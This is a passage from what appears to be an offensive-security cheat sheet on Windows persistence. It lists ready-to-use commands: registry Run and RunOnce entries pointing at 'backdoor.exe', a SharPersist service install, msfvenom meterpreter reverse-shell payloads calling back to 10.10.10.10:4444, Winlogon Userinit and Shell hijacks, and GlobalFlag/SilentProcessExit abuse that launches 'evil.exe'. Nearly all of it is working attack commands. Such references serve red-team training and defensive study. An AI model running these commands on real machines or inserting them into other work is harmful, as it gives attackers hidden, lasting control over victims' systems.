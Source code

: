 Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### Registry HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

Using the command line 

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
```

#### Winlogon Helper DLL

> Run executable during Windows logon

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
```


#### GlobalFlag

> Run executable after notepad is killed

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```
